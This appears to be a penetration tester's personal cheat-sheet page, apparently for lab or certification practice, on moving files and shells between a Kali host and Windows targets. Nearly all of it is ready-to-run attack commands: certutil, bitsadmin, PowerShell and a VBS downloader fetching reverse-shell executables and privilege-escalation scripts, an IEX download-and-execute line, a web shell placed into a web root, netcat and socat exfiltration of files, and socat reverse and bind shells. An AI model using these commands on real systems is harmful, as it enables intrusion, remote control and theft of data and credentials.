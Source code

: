 #### Certutil
[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe
```

If unable to save in that location, simply find TEMP, save and execute there.
```command prompt - windows
echo %TEMP%
```

```command prompt - windows
cd %TEMP%
```

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe C:\Windows\TEMP\reverse64.exe
```

```command prompt - windows
C:\Windows\TEMP\reverse64.exe
```

Run PS download command in CMD (Note that we will need to press **enter** after the PowerShell command to get the cmd prompt back.):
```powershell - windows
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe', '%TEMP%\Tools\reverse.exe')"
```


#### PowerShell Download and execute:
```powershell - windows
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```

#### Powershell Just Download:
```powershell - windows
iwr http://$KALI/cmd.php -OutFile C:\xampp\htdocs\cmd.php
```

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/reverse.exe' -OutFile reverse.exe
```

```powershell - windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','reverse.exe')"
```

#### SMB
[[Python#SMB File Transfer]]

#### Rdesktop share folder < BEST FOR BINARY FILES!
[[Port 3389 - RDP ~#rdesktop]]

#### Bitsadmin
```command prompt - windows
bitsadmin /create 1 bitsadmin /addfile 1 http://$KALI:80/reverse64.exe reverse64.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

![[Python#FTP Server]]

#### PureFTPD_Installation
```bash - kali
sudo apt install pure-ftpd
```

```bash - kali
chmod +x PureFTPD_Setup.sh
```

```bash - kali
sudo ./PureFTPD_Setup.sh
```

#### PureFTPD_setup.sh

```bash - kali
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

#### PureFTPD_file transfer
```bash - Kali
service pure-ftpd start
```

```bash - kali
ftp $KALI
```

```bash - kali
offsec
```

```bash - kali
lab
```

```bash - kali
binary
```

```bash - kali
put winpeas.txt
```

```bash - kali
less -r winpeas.txt
```


### wget.vbs
```command prompt - kali
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After you've created wget.vbs
```command prompt - kali
cscript wget.vbs http://$KALI/nc.exe nc.exe
```

##### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

PowerShell example:
```
cmd /c "nc.exe -w 3 [destination] 1234 < winpeas.txt"
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Windows Bind Shell
```
socat TCP4-LISTEN:443 EXEC:cmd.exe,pipes
```

```
socat - TCP4:$TARGET:443
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Powershell unzip a file
```
expand-archive -path mimikatz.zip
```
